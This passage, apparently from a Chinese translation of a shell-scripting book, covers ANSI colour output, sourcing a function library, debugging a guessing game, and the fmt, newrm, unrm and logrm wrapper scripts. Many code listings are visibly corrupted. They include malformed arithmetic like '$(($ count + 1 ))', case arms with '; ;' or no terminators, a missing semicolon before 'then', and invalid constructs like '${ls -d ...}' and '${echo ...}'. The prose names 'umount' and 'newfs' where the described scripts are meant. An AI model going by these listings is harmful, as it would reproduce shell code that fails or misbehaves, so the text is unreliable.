```

代码清单 1-27：运行代码清单 1-26 中的脚本将打印的文本

#### 修改脚本

在使用此脚本时，你可能会看到如下输出：

```text
\033[33m\033[41mWarning!\033[43m\033[31mWarning!\033[0m
```

如果出现这种情况，问题可能是你的终端或窗口不支持 ANSI 颜色序列，或者它不理解关键变量 `esc` 的 `\033` 表示法。要解决后一个问题，请在 `vi` 或你喜欢的终端编辑器中打开脚本，删除 `\033` 序列，然后通过输入 "V" (`CTRL-V`) 键紧接着按下 `ESC` 键来替换它，这应该显示为 `^[`。如果屏幕上的结果看起来像 `esc=^"[ "`，那么一切应该都能正常工作。

另一方面，如果你的终端或窗口完全不支持 ANSI 序列，你可能需要升级，以便在其他脚本中添加彩色和增强字体的输出。但在放弃当前终端之前，请检查终端的首选项——有些终端有可以开启完全 ANSI 支持的设置。

## #12 构建 Shell 脚本库

本章中的许多脚本是以函数而非独立脚本编写的，以便它们能够轻松地合并到其他脚本中，而无需产生进行系统调用的开销。虽然 Shell 脚本中没有像 C 语言那样的 `#include` 特性，但有一种极其重要的能力叫做“source 文件”，它起到了同样的作用，允许你像包含库函数一样包含其他脚本。

为了了解为什么这很重要，让我们考虑另一种替代方案。如果你在 Shell 中调用一个 Shell 脚本，默认情况下该脚本会在自己的子 Shell 中运行。你可以通过以下实验观察到这一点：

```bash
$ echo "test=2" >> tinyscript.sh
$ chmod +x tinyscript.sh
$ test=1
$ ./tinyscript.sh
$ echo $test
1
```

脚本 `tinyscript.sh` 改变了变量 `test` 的值，但仅在运行该脚本的子 Shell 内部改变，因此我们 Shell 环境中现有 `test` 变量的值没有受到影响。相反，如果你使用点（`.`）符号来 source 脚本运行，那么它会被处理为脚本中的每个命令都直接输入到当前 Shell 中：

```bash
$ . tinyscript.sh
$ echo $test
2
```

正如你预料的那样，如果你 source 一个包含 `exit 0` 命令的脚本，它将退出 Shell 并注销窗口，因为 source 操作使被 source 的脚本成为了主运行进程。如果你在子 Shell 中运行脚本，它会在不停止主脚本的情况下退出。这是一个重大区别，也是选择使用 `.` 或 `source` 或（我们稍后将解释的）`exec` 来 source 脚本的原因。`.` 符号实际上与 bash 中的 `source` 命令相同；我们使用 `.` 是因为它在不同的 POSIX Shell 之间具有更好的可移植性。

#### 代码

要将本章中的函数转换为可在其他脚本中使用的库，请提取所有函数以及任何需要的全局变量或数组（即多个函数共用的值），并将它们合并到一个大文件中。如果你将此文件命名为 `library.sh`，你可以使用如下测试脚本来访问我们在本章中编写的所有函数，并检查它们是否正常工作，如代码清单 1-28 所示。

```bash
#!/bin/bash

# Library test script

# Start by sourcing (reading in) the library.sh file.
. library.sh

initializeANSI # Let's set up all those ANSI escape sequences.
```

```bash
# Test validint functionality.
echon "First off, do you have echo in your path? (1=yes, 2=no) "
read answer
while ! validint $answer 1 2 ; do
    echon "${boldon}Try again${boldoff}. Do you have echo "
    echon "in your path? (1=yes, 2=no) "
    read answer
done

# Is the command that checks what's in the path working?
if ! checkForCmdInPath "echo" ; then
    echo "Nope, can't find the echo command."
else
    echo "The echo command is in the PATH."
fi

echo ""
echon "Enter a year you think might be a leap year: "
read year

# Test to see if the year specified is between 1 and 9999 by
# using validint with a min and max value.
while ! validint $year 1 9999 ; do
    echon "Please enter a year in the ${boldon}correct${boldoff} format: "
    read year
done

# Now test whether it is indeed a leap year.
if isLeapYear $year ; then
    echo "${greenf}You're right! $year is a leap year.${reset}"
else
    echo "${redf}Nope, that's not a leap year.${reset}"
fi

exit 0
```

代码清单 1-28：将之前实现的函数作为单个库引入并调用它们

#### 工作原理

请注意，库是通过 ❶ 处的一行代码被合并的，所有函数都被读取并包含在脚本的运行时环境中。

这种在本书中处理多个脚本的有用方法可以根据需要反复利用。只需确保你要包含的库文件在你的 `PATH` 中可以访问，这样 `.` 命令就能找到它。

#### 运行脚本

要运行测试脚本，就像调用任何其他脚本一样从命令行调用它，如代码清单 1-29 所示。

#### 运行结果

```text
$ library-test
First off, do you have echo in your PATH? (1=yes, 2=no) 1
The echo command is in the PATH.

Enter a year you think might be a leap year: 432423
Your value is too big: largest acceptable value is 9999.
Please enter a year in the correct format: 432
You're right! 432 is a leap year.
```

代码清单 1-29：运行 `library-test` 脚本

在你的屏幕上，数值过大的错误信息将以**粗体**显示。此外，正确猜出的闰年将以绿色显示。

从历史上看，432 年并不是闰年，因为闰年直到 1752 年才开始出现在日历中。但我们讨论的是 shell 脚本，而不是日历黑客，所以我们就睁一只眼闭一只眼。

## #13 调试 Shell 脚本

虽然本节本身不包含一个完整的脚本，但我们想花几页篇幅谈谈调试 shell 脚本的一些基础知识，因为 bug 肯定会潜入其中！

根据我们的经验，最好的调试策略是增量地构建脚本。一些脚本程序员过度乐观地认为所有事情在第一次运行就会正确工作，但从小规模开始确实能帮助推进进度。此外，你应该大量使用 `echo` 语句来跟踪变量，并使用 `bash -x` 显式调用你的脚本以显示调试输出，如下所示：

```bash
$ bash -x myscript.sh
```

或者，你可以预先运行 `set -x` 来启用调试，之后运行 `set +x` 来停止调试，如这里所示：

```bash
$ set -x
$ ./myscript.sh
$ set +x
```

为了查看 `-x` 和 `+x` 序列的实际运行情况，让我们调试一个简单的猜数字游戏，如代码清单 1-30 所示。

#### 代码

```bash
#!/bin/bash
# hilow--A simple number-guessing game

biggest=100      # Maximum number possible
guess=0          # Guessed by player
guesses=0        # Number of guesses made
number=$(( $$ % $biggest )) # Random number, between 1 and $biggest
echo "Guess a number between 1 and $biggest"

while [ "$guess" -ne $number ]; do
    /bin/echo -n "Guess? " ; read answer
    if [ "$guess" -lt $number ]; then
        echo "... bigger!"
    elif [ "$guess" -gt $number ]; then
        echo "... smaller!"
    fi
    guesses=$(( $guesses + 1 ))
done

echo "Right!! Guessed $number in $guesses guesses."

exit 0
```

代码清单 1-30：`hilow` 脚本，其中可能包含几个需要调试的错误……

#### 工作原理

要理解 ❶ 处的随机数部分是如何工作的，请记住 `$$` 序列是运行脚本的 shell 的进程 ID（PID），通常是一个 5 位或 6 位的值。每次运行脚本时，它都会获得一个不同的 PID。接下来的 `% biggest` 序列将 PID 值除以指定的最大可接受值并返回余数。换句话说，`5 % 4 = 1`，`41 % 4` 同样等于 `1`。这是一种产生 1 到 `$biggest` 之间半随机数的简单方法。

#### 运行脚本

调试这个游戏的第一步是测试并确保生成的数字具有足够的随机性。为此，我们使用 `$$` 表示法获取运行脚本的 shell 的 PID，并使用 `%` 取模函数 ❶ 将其缩小到可用范围。为了测试该函数，直接在 shell 中输入命令，如这里所示：

```bash
$ echo $(( $$ % 100 ))
5
$ echo $(( $$ % 100 ))
5
$ echo $(( $$ % 100 ))
5
```

这虽然运行成功了，但随机性不高。稍加思考就能发现原因：当命令直接在命令行运行的时候，PID 始终相同；但当在脚本中运行时，命令每次都处于不同的子 shell 中，因此 PID 会发生变化。

另一种生成随机数的方法是引用环境变量 `$RANDOM`。这简直是魔法！每次引用它，你都会得到一个不同的值。要生成 1 到 `$biggest` 之间的数字，你可以在 ❶ 处使用 `(( $RANDOM % $biggest + 1 ))`。

下一步是添加游戏的基本逻辑。生成一个 1 到 100 之间的随机数 ❶；玩家进行猜测 ❷；每次猜测后，告知玩家猜测值是太高 ❸ 还是太低 ❹，直到他们最终猜中正确的值。在输入所有基础代码后，就可以运行脚本看看效果了。这里我们使用代码清单 1-30，包含所有缺陷：

```text
$ hilow
./013-hilow.sh: line 19: unexpected EOF while looking for matching '`'
./013-hilow.sh: line 22: syntax error: unexpected end of file
```

哎，这是 shell 脚本开发者的噩梦：意外的文件结束（EOF）。仅仅因为消息说错误在第 19 行，并不意味着它真的在那里。事实上，第 19 行完全没有问题：

```bash
$ sed -n 19p hilow
echo "Right!! Guessed $number in $guesses guesses."
```

为了理解发生了什么，请记住引号包围的段落可以包含换行符。这意味着当 shell 遇到一个我们没有正确关闭的引号段落时，它会继续向下读取脚本寻找匹配的引号，直到触及最后一个引号并意识到出了问题才会停止。

因此，问题一定出在脚本的前面。shell 错误消息中唯一真正有用的信息是它告诉了你哪个字符不匹配，所以我们可以使用 `grep` 尝试提取所有包含引号的行，然后过滤掉包含两个引号的行，如这里所示：

```bash
$ grep '`' 013-hilow.sh | egrep -v '.*".".*'
echo "... smaller!"
```

找到了！在告知用户必须猜测更小数字的行 ❸ 缺少闭合引号。我们在行尾添加缺失的引号并再次尝试：


```text
$ hilow
./013-hilow.sh: line 7: unexpected EOF while looking for matching ')'
./013-hilow.sh: line 22: syntax error: unexpected end of file
```

不行。又出现了一个问题。因为脚本中的括号表达式很少，我们可以直接肉眼观察这个问题，发现随机数实例化的闭合括号被错误地截断了：

```bash
number=$(( $$ % $biggest ))  # Random number between 1 and $biggest
```

我们可以通过在代码注释之前的行尾添加闭合括号来修复此问题。现在游戏能运行了吗？让我们来看看：

```text
$ hilow
Guess? 33
... bigger!
Guess? 66
... bigger!
Guess? 99
... bigger!
Guess? 100
... bigger!
Guess? ^C
```

快了。但因为 100 是最大可能值，代码逻辑中似乎存在错误。这些错误特别棘手，因为没有神奇的 `grep` 或 `sed` 调用能识别出问题。回顾代码，看看你是否能发现哪里出错了。

为了调试这个问题，我们可以添加几个 `echo` 语句来输出用户选择的数字，并验证输入的值是否就是正在被测试的值。相关代码段从 ❶ 开始，为了方便起见，我们在此重新打印这些行：

```bash
/bin/echo -n "Guess? " ; read answer
if [ "$guess" -lt $number ] ; then
```

事实上，当我们修改 `echo` 语句并观察这两行时，我们意识到了错误：被读取的变量是 `answer`，但被测试的变量名为 `guess`。这是一个低级错误，但并不罕见（尤其是当你使用拼写古怪的变量名时）。为了修复此问题，我们应该将 `read answer` 改为 `read guess`。

#### 运行结果

最终，它按预期工作，如代码清单 1-31 所示。

```text
$ hilow
Guess? 50
... bigger!
Guess? 75
... bigger!
Guess? 88
... smaller!
Guess? 83
... smaller!
Guess? 80
... smaller!
```

```text
Guess? 77
... bigger!
Guess? 79
Right!! Guessed 79 in 7 guesses.
```

代码清单 1-31：运行得非常完美的 `hilow` shell 脚本游戏

#### 破解脚本

这个小脚本中潜伏的最严重 bug 是它没有验证输入。只要输入任何非整数的内容，脚本就会卡顿并失败。添加一个基础测试可以很简单，只需在 `while` 循环内部添加以下代码行：

```bash
if [ -z "$guess" ]; then
    echo "Please enter a number. Use ^C to quit"; continue;
fi
```

问题在于，确认输入非空并不意味着它是一个数字，如果你输入类似 `hi` 的内容，测试命令会产生错误。要解决这个问题，请调用第 23 页脚本 #5 中的 `validint` 函数。

## 2 改进用户命令

一个典型的 Unix 或 Linux 系统默认包含数百个命令。如果考虑到标志（flags）以及通过管道组合命令的多种可能方式，在命令行上工作会有数百万种不同的方式。

在进一步探讨之前，代码清单 2-1 展示了一个额外脚本，它将告诉你你的 `PATH` 中有多少个命令。

```bash
#!/bin/bash

# How many commands: a simple script to count how many executable
# commands are in your current PATH

IFS=":"
count=0 ; nonex=0
for directory in $PATH ; do
    if [ -d "$directory" ] ; then
    for command in "$directory"/* ; do
        if [ -x "$command" ] ; then
            count="$(($ count + 1 ))"
        else
            nonex="$(($ nonex + 1 ))"
        fi
    done
    fi
done

echo "$count commands, and $nonex entries that weren't executable"

exit 0
```

代码清单 2-1：统计当前 `PATH` 中可执行文件和不可执行文件的数量

该脚本统计的是可执行文件的数量而非单纯的文件数量，它可以用来揭示许多流行操作系统默认 `PATH` 变量中包含多少个命令和不可执行文件（见表 2-1）。

### 表 2-1：各操作系统的典型命令数量

| 操作系统 | 命令数 | 不可执行文件数 |
| :--- | ---: | ---: |
| Ubuntu 15.04 (包含所有开发库) | 3,156 | 5 |
| OS X 10.11 (安装了开发选项) | 1,663 | 11 |
| FreeBSD 10.2 | 954 | 4 |
| Solaris 11.2 | 2,003 | 15 |

显然，不同版本的 Linux 和 Unix 提供了大量的命令和可执行脚本。为什么会有这么多？答案基于基础的 Unix 哲学：命令应该只做一件事，并且把它做好。在 Windows 和 Mac 世界中，具有拼写检查、文件查找和电子邮件功能的文字处理器可能运行良好，但在命令行中，这些功能应该 Each 分离且独立。

这种设计哲学有许多优点，最重要的一点是每个功能都可以单独修改和扩展，从而让所有利用该功能的应用都能获得这些新能力。对于你想在 Unix 上执行的任何任务，通常都可以轻松地将一些东西组合在一起来实现，无论是通过下载某个为系统增加功能的精巧实用工具，创建一些别名，还是尝试编写 shell 脚本。

书中的脚本不仅有用，而且是 Unix 哲学的逻辑延伸。毕竟，与其为自己的安装环境构建复杂且不兼容的命令版本，不如进行扩展和扩充。

本章探讨的脚本都与代码清单 2-1 中的脚本类似，它们在不增加高度复杂性的情况下，增加了有趣或实用的功能和能力。某些脚本接受不同的命令标志以提供更大的灵活性，还有一些脚本演示了 shell 脚本如何被用作包装器（wrapper）——这是一个中间程序，允许用户使用通用符号指定命令或命令标志，然后将其翻译成实际 Unix 命令所需的正确格式和语法。

### #14 格式化长行

如果你足够幸运，你的 Unix 系统已经包含了 `fmt` 命令，如果你经常处理文本，这个程序非常有用。从重新格式化电子邮件到使文档行占用所有可用宽度，`fmt` 是一个值得了解的实用工具。

然而，一些 Unix 系统不包含 `fmt`。这在旧系统中尤为常见，因为它们通常采用相当极简的实现。

事实证明，`nroff` 命令（自 Unix 诞生起就是其一部分，并且本身就是一个 shell 脚本包装器）可以用在简短的 shell 脚本中，用来折行并填充短行以平衡行长，如代码清单 2-2 所示。

#### 代码

```bash
#!/bin/bash

# fmt--Text formatting utility that acts as a wrapper for nroff
# Adds two useful flags: -w X for line width
# and -h to enable hyphenation for better fills
while getopts "hw:" opt; do
  case $opt in
    h ) hyph=1
    w ) width="$OPTARG"
  esac
done
shift $(($OPTIND - 1))

nroff << EOF
.ll ${width:-72}
.na
.hy ${hyph:-0}
.pl 1
$(cat "$@")
EOF

exit 0
```

代码清单 2-2：用于美化长文本格式的 `fmt` shell 脚本

#### 工作原理

这个简洁的脚本提供了两个不同的命令标志：`-w X` 用于指定当行超过 X 个字符时进行折行（默认值为 72），以及 `-h` 用于启用跨行单词连字符断词。注意 ❶ 处的标志检查。`while` 循环使用 `getopts` 一次读取传递给脚本的一个选项，内部的 `case` 块决定如何处理这些选项。选项解析完成后，脚本在 ❷ 处调用 `shift`，利用 `OPTIND`（保存 `getopts` 下一次要读取的参数索引）丢弃所有选项标志，并留下剩余参数继续处理。

此脚本还使用了 here document（在第 34 页的脚本 #9 中讨论），这是一种代码块，可用于向命令提供多行输入。利用这种记法上的便利，❸ 处的脚本向 `nroff` 提供实现所需输出的所有必要命令。在此文档中，我们使用了 bashism 来替换未定义的变量 ❹，以便在用户未指定参数时提供一个合理的默认值。最后，脚本调用 `cat` 命令处理请求的文件名。为了完成任务，`cat` 命令的输出也被直接喂给了 `nroff` ❺。这种技术在本书介绍的脚本中会频繁出现。

#### 运行脚本

此脚本可以直接从命令行调用，但它更有可能作为外部管道的一部分，由 vi 或 Vim 等编辑器内部调用（例如 `!fmt`）来格式化一段文本。

#### 结果

代码清单 2-3 启用了连字符并指定最大宽度为 50 个字符。

```text
$ fmt -h -w 50 014-ragged.txt
So she sat on, with closed eyes, and half believed
herself in Wonderland, though she knew she had but
to open them again, and all would change to dull
reality--the grass would be only rustling in the
wind, and the pool rippling to the waving of the
reeds--the rattling teacups would change to tin-
kling sheep-bells, and the Queen's shrill cries
to the voice of the shepherd boy--and the sneeze
of the baby, the shriek of the Gryphon, and all
the other queer noises, would change (she knew) to
the confused clamour of the busy farm-yard--while
the lowing of the cattle in the distance would
take the place of the Mock Turtle's heavy sobs.
```

代码清单 2-3：使用 `fmt` 脚本格式化文本，在 50 个字符处对折行单词进行连字符处理

将代码清单 2-3（注意第 6 行和第 7 行高亮的、新添加连字符的单词 tinkling）与代码清单 2-4 的输出进行比较，后者是使用默认宽度且没有连字符生成的。

```text
$ fmt 014-ragged.txt

So she sat on, with closed eyes, and half believed herself in
Wonderland, though she knew she had but to open them again, and all
would change to dull reality--the grass would be only rustling in the
wind, and the pool rippling to the waving of the reeds--the rattling
teacups would change to tinkling sheep-bells, and the Queen's shrill
cries to the voice of the shepherd boy--and the sneeze of the baby, the
shriek of the Gryphon, and all the other queer noises, would change (she
knew) to the confused clamour of the busy farm-yard--while the longing of
the cattle in the distance would take the place of the Mock Turtle's
heavy sobs.
```

代码清单 2-4：`fmt` 脚本在没有连字符时的默认格式化效果

### #15 在删除文件时备份

Unix 用户最常见的问题之一是，没有简单的方法来恢复被误删除的文件或文件夹。没有像 Undelete 360、WinUndelete 或 OS X 实用程序那样用户友好的应用程序，让你能通过点击按钮轻松浏览并还原删除的文件。一旦你在输入 `rm filename` 后按下回车，该文件就成为了历史。

解决这个问题的一种方案是将文件和目录秘密且自动地存档到 `.deleted-files` 存档中。通过在脚本中进行一些巧妙的操作（如代码清单 2-5 所示），这个过程可以让用户几乎完全感知不到。

#### 代码

```bash
#!/bin/bash

# newrm--A replacement for the existing rm command.
#   This script provides a rudimentary unremove capability by creating and
#   utilizing a new directory within the user's home directory. It can handle
#   directories of content as well as individual files. If the user specifies
#   the -f flag, files are removed and NOT archived.

# Big Important Warning: You'll want a cron job or something similar to keep
# the trash directories assorted. Otherwise, nothing will ever actually be
# deleted from the system, and you'll run out of disk space!

archivedir="$HOME/.deleted-files"
realrm="$(which rm)"
copy="$(which cp) -R"
```

```bash
if [ $# -eq 0 ] ; then
    exec $realrm
fi

# Parse all options looking for '-f'

flags=""

while getopts "dfiPRrvw" opt
do
    case $opt in
        f ) exec "$realrm" "$@" ; ; # exec lets us exit this script directly.
        * ) flags="$flags -${opt}" ; ; # Other flags are for rm, not us.
    esac
done
shift $(( $OPTIND - 1 ))

# BEGIN MAIN SCRIPT
# =====================

# Make sure that the $archivedir exists.

if [ ! -d $archivedir ] ; then
    if [ ! -w $HOME ] ; then
        echo "0 failed: can't create $archivedir in $HOME" >&2
        exit 1
    fi
    mkdir $archivedir
    chmod 700 $archivedir # A little bit of privacy, please.
fi

for arg
do
    newname="$archivedir/$(date "+%S.%M.%H.%d.%m")=$(basename "$arg")"
    if [ -f "$arg" -o -d "$arg" ] then
        cp "$arg" "$newname"
    fi
done

exec $realrm $flags "$@" # Our shell is replaced by realrm.
```

代码清单 2-5：`newrm` 壳脚本，用于在文件从磁盘删除前对其进行备份

#### 工作原理

这个脚本中有许多值得关注的巧妙之处，其中最重要的一点就是它在确保用户感知不到其存在方面所做的显著努力。例如，在无法正常工作的情况下，该脚本不会生成错误消息；它只是通过调用（通常是）`/bin/rm` 并传递可能错误的参数，让 `realrm` 来生成这些错误。对 `realrm` 的调用是通过 `exec` 命令完成的，该命令会将当前进程替换为指定的新进程。一旦 `exec` 调用了 `realrm`，它实际上就退出了此脚本，而 `realrm` 进程的返回代码将交给调用它的 shell。


由于该脚本在用户主目录下秘密创建了一个目录 ①，因此它需要确保那里的文件不会因为 `umask` 值设置不当而突然被他人读取。（`umask` 值定义了新创建文件或目录的默认权限。）为了避免这种过度共享，脚本在 ② 处使用 `chmod` 来确保该目录被设置为仅用户可读/写/执行，而对其他人关闭。

最后在 ③ 处，脚本使用 `basename` 从文件路径中剥离所有目录信息，并为每个被删除的文件添加一个日期和时间戳，格式为 `秒.分.时.日.月.文件名`：

```bash
newname="$archivedir/$(date "+%S.%M.%H.%d.%m").$(basename "$arg")"
```

注意在同一个替换中使用多个 `$( )` 元素。虽然这看起来有点复杂，但非常有帮助。记住，`$(` 和 `)` 之间的任何内容都会被送到子 shell 中，然后整个表达式会被该命令的结果所替换。

那么，为什么要费心添加时间戳呢？为了支持存储多个同名的被删除文件。一旦这些文件被存档，除了删除时间之外，脚本无法区分 `/home/oops.txt` 和 `/home/subdir/oops.txt`。如果多个同名文件被同时删除（或在同一秒内删除），先存档的文件将被覆盖。解决此问题的一种方案是将原始文件的绝对路径添加到存档文件名中。

#### 运行脚本

要安装此脚本，请添加一个别名，这样当你输入 `rm` 时，实际上运行的是这个脚本，而不是 `/bin/rm` 命令。bash 或 ksh 的别名设置如下：

```bash
alias rm=yourpath/newrm
```

#### 运行结果

运行此脚本的结果在设计上是隐藏的（如代码清单 2-6 所示），所以让我们在过程中关注一下 `.deleted-files` 目录。

```bash
$ ls ~/.deleted-files/
ls: /Users/taylor/.deleted-files/: No such file or directory
$ newrm file-to-keep-forever
$ ls ~/.deleted-files/
51.36.16.25.03.file-to-keep-forever
```

_代码清单 2-6：测试 newrm 壳脚本_

完全正确。虽然文件从本地目录中被删除了，但其副本被秘密地存放到了 `.deleted-files` 目录中。时间戳允许将同名的其他被删除文件存储在同一个目录中而不会互相覆盖。

#### 改进脚本

一个有用的优化是更改时间戳，使其按时间反序排列，以便 `ls` 列出的文件按时间顺序显示。这是需要修改脚本的那一行：

```bash
newname=`$archivedir/$(date "%Y.%m.%d.%H.%M.%S").$(basename "$arg")`
```

你可以反转该格式化请求中的标记顺序，使备份文件名中原文件名在前，日期在后。然而，由于我们的时间粒度是秒，你可能会在同一秒内删除多个同名文件（例如 `rm test testdir/test`），导致产生两个同名文件。因此，另一个有用的修改是将文件的位置纳入到存档副本中。这样会生成例如 `timestamp.test` 和 `timestamp.testdir.test` 这样的文件名，它们显然是两个不同的文件。

## 16 处理被删除文件的存档

既然用户主目录下隐藏了一个被删除文件的目录，那么编写一个脚本让用户在不同版本的被删除文件之间进行选择将会非常有用。然而，处理所有可能的情况是一项相当艰巨的任务，范围从完全找不到指定文件到发现多个符合给定条件的被删除文件。例如，在有多个匹配项的情况下，脚本应该自动选择最新的文件来恢复吗？还是抛出一个错误指出有多少个匹配项？或者列出不同版本让用户选择？让我们看看代码清单 2-7 能做些什么，其中详细介绍了 `unrm` 壳脚本。

#### 代码

```bash
#!/bin/bash

# unrm--Searches the deleted files archive for the specified file or
# directory. If there is more than one matching result, it shows a list
# of results ordered by timestamp and lets the user specify which one
# to restore.

archivedir="$HOME/.deleted-files"
realrm=$(which rm)
move=$(which mv)

dest=$(pwd)

if [ ! -d $archivedir ] ; then
    echo "$0: No deleted files directory: nothing to unrm" >&2
    exit 1
fi

cd $archivedir

# If given no arguments, just show a listing of the deleted files.
if [ $# -eq 0 ] ; then
    echo "Contents of your deleted files archive (sorted by date):"
    ls -FC | sed -e '/^\([[:digit:]][[:digit:]][[:digit:]]\.\)\(\(5\)//g' \
        -e 's/^\//'
    exit 0
fi

# Otherwise, we must have a user-specified pattern to work with.
# Let's see if the pattern matches more than one file or directory
# in the archive.
matches=(${ls -d "$1" 2 > /dev/null | wc -l}-1)

if [ $matches -eq 0 ] ; then
    echo "No match for \"$1\" in the deleted file archive." >&2
    exit 1
fi

if [ $matches -gt 1 ] ; then
    echo "More than one file or directory match in the archive:"
    index=1
    for name in $(ls -td "$1")
    do
        datetime="$(echo $name | cut -c1-14 | \
            awk -F '.' { print $5"/"$4 " at "$3":"$2":"$1 })"
        filename="$(echo $name | cut -c16-)"
        if [ -d $name ] ; then
            filecount="$(ls $name | wc -l | sed 's/^[:digit:]//g')"
            echo " $index) $filename (contents = $filecount items, deleted = $datetime)"
        else
            size="$(ls -sdk1 $name | awk '{print $1}')"
            echo " $index) $filename (size = $size Kb, deleted = $datetime)"
        fi
        index=$(( $index + 1 ))
    done
    echo ""
    /bin/echo -n "Which version of $1 should I restore ('0' to quit) [ 1 : "
    read desired
    if [ ! -z "${echo $desired | sed 's/[[:digit:]]//g' }" ] ; then
        echo "$0: Restore canceled by user: invalid input." >&2
        exit 1
    fi

    if [ ${desired:=1} -ge $index ] ; then
        echo "$0: Restore canceled by user: index value too big." >&2
        exit 1
    fi

    if [ $desired -lt 1 ]; then
        echo "$0: Restore canceled by user." >&2
        exit 1
    fi

    restore=$(ls -td1 "*$1" | sed -n "${desired}p")

    if [ -e "$dest/$1" ]; then
        echo "\"$1\" already exists in this directory. Cannot overwrite." >&2
        exit 1
    fi

    /bin/echo -n "Restoring file \"$1\" ..."
    $move "$restore" "$dest/$1"
    echo "done."

    /bin/echo -n "Delete the additional copies of this file? [y] "
    read answer

    if [ ${answer:=y} = "y" ]; then
        $realrm -rf "*$1"
        echo "Deleted."
    else
        echo "Additional copies retained."
    fi
else
    if [ -e "$dest/$1" ]; then
        echo "\"$1\" already exists in this directory. Cannot overwrite." >&2
        exit 1
    fi

    restore=$(ls -d "*$1")

    /bin/echo -n "Restoring file \"$1\" ..."
    $move "$restore" "$dest/$1"
    echo "Done."
fi

exit 0
```

代码清单 2-7：用于恢复备份文件的 `unrm` 壳脚本

#### 工作原理

第一块代码 ➊ 处的 `if [ $# -eq 0 ]` 条件块在未指定参数时执行，显示被删除文件存档的内容。但这里有一个细节：我们不想向用户展示添加到文件名中的时间戳数据，因为那仅供脚本内部使用，否则会使输出显得杂乱。为了以更美观的格式显示这些数据，➋ 处的 `sed` 语句删除了 `ls` 输出中前五个出现的 *数字 数字 点* 模式。

用户可以将要恢复的文件或目录名称可以作为参数指定。接下来的步骤 ❷ 是确定提供的名称有多少个匹配项。

这一行中嵌套双引号的非常规用法（在 `$1` 周围）是为了确保 `ls` 能够匹配包含嵌入空格的文件名，而 `*` 通配符则将匹配范围扩大到包含任何前导时间戳。`2> /dev/null` 序列用于丢弃命令产生的任何错误，而不是将其显示给用户。被丢弃的错误极有可能是当找不到指定文件名时出现的 `No such file or directory`。

如果给定的文件或目录名称有多个匹配项，则会执行该脚本中最复杂的部分——❹ 处的 `if [ $matches -gt 1 ]` 代码块，并显示所有结果。在主 `for` 循环中为 `ls` 命令使用 `-t` 标志，使得归档文件按从新到旧的顺序呈现；而在 ❺ 处，对 `awk` 命令的一次简洁调用将文件名的时间戳部分转换为括号内的删除日期和时间。在 ❻ 处的大小计算中，向 `ls` 添加 `-k` 标志强制将大小以 KB 为单位表示。

脚本不会显示匹配目录项的大小，而是显示每个匹配目录中的文件数量，这是一个更有帮助的统计数据。目录中的条目数量很容易计算。在 ❼ 处，我们只需统计 `ls -1` 提供的行数，并清除 `awk` 输出中的任何空格。

一旦用户指定了可能的匹配文件或目录之一，❽ 处将确定具体的文件。该语句包含了一种略有不同的 `sed` 用法。指定 `-n` 标志以及行号 (`${desired}`) 随后接 `p` (print) 命令，是一种从输入流中仅提取指定行的快速方法。想只查看第 37 行？命令 `sed -n 37p` 正是这样实现的。

接着在 ❾ 处有一个测试，以确保 `umount` 不会覆盖现有文件的副本，然后通过调用 `/bin/mv` 恢复文件或目录。完成后，用户有机会删除额外的（可能是多余的）文件副本 ❿，随后脚本执行完毕。

请注意，使用 `ls *` 配合 `$1` 会匹配任何以 `$1` 中的值结尾的文件名，因此多个“匹配文件”的列表中可能包含不仅仅是用户想要恢复的文件。例如，如果删除的文件目录包含文件 `11.txt` 和 `111.txt`，运行 `umount 11.txt` 会发出找到多个匹配项的信号，并返回 `11.txt` 和 `111.txt` 的列表。虽然这可能没问题，但一旦用户选择恢复正确的文件 (`11.txt`)，接受删除额外副本的提示也会将 `111.txt` 删除。因此，在这种情况下默认删除可能不是最优选择。不过，如果你对 `newfs` 使用与第 55 页脚本 #15 相同的时间戳格式，可以通过使用 `?? .?? .?? .?? .?? ."$1"` 模式轻松解决此问题。

#### 运行脚本

有两种运行此脚本的方法。在不带任何参数的情况下，脚本将显示用户删除文件归档中的所有文件和目录列表。

当给定文件名作为参数时，脚本将尝试恢复该文件或目录（如果只有一个匹配项），或者显示待恢复的候选列表，并允许用户指定要恢复哪个版本的删除文件或目录。

#### 运行结果

在未指定任何参数的情况下，脚本显示的删除文件归档内容如清单 2-8 所示。

```bash
$ unrm
Contents of your deleted files archive (sorted by date):
detritus		this is a test
detritus		garbage
```

清单 2-8：不带参数运行 `unrm` shell 脚本会列出当前可恢复的文件

当指定文件名时，如果存在多个同名文件，脚本将显示有关该文件的更多信息，如清单 2-9 所示。

```bash
$ unrm detritus
More than one file or directory match in the archive:
1) detritus (size = 7688Kb, deleted = 11/29 at 10:00:12)
2) detritus (size = 4Kb, deleted = 11/29 at 09:59:51)

Which version of detritus should I restore ('0' to quit)? [ 1 ] : 0
unrm: Restore canceled by user.
```

清单 2-9：带单个参数运行 `unrm` 壳脚本尝试恢复文件

#### 改进脚本

如果你使用此脚本，请注意，如果没有一个控制或限制，删除文件归档中的文件和目录将无限制增长。为了避免这种情况，可以在 `cron` 任务中调用 `find` 来清理删除文件归档，使用 `-mtime` 标志来识别那些数周未被触动的文件。对于大多数用户来说，14 天的归档可能就足够了，并且能防止归档脚本占用过多磁盘空间。

既然说到这里，还有一些改进可以让此脚本更加用户友好。考虑添加启动标志，例如 `-1` 恢复最新版本，`-0` 删除文件的额外副本。你会添加哪些标志，以及如何优化处理流程？

## 17 记录文件删除

你可能不想归档删除的文件，而只是想跟踪系统中正在发生的删除操作。在清单 2-10 中，使用 `rm` 命令删除文件的操作将在一个独立的文件中记录，而不会通知用户。

这可以通过将脚本用作包装器（wrapper）来实现。包装器的基本思想是它们位于实际的 Unix 命令和用户之间，为用户提供原命令本身不具备的实用功能。

> **注意** 包装器是一个非常强大的概念，你在阅读本书的过程中会反复看到它出现。

#### 代码

```bash
#!/bin/bash
# logrm--Logs all file deletion requests unless the -s flag is used

removelog="/var/log/remove.log"

if [ $# -eq 0 ]; then
    echo "Usage: $0 [-s] list of files or directories" >&2
    exit 1
fi

if [ "$1" = "-s" ]; then
    # Silent operation requested ... don't log.
    shift
else
    echo "$(date): ${USER}: $@" >> $removelog
fi

/bin/rm "$@"

exit 0
```

清单 2-10：`logrm` shell 脚本

#### 工作原理

第一部分 ❶ 测试用户输入，如果没有给出参数，则生成一个简单的文件列表。然后在 ❷ 处，脚本测试参数 1 是否为 `-s`；如果是，则跳过记录删除请求。最后，时间戳、用户和命令被添加到 `$removelog` 文件 ❸ 中，而用户命令则被静默传递给真正的 `/bin/rm` 程序 ❹。

#### 运行脚本


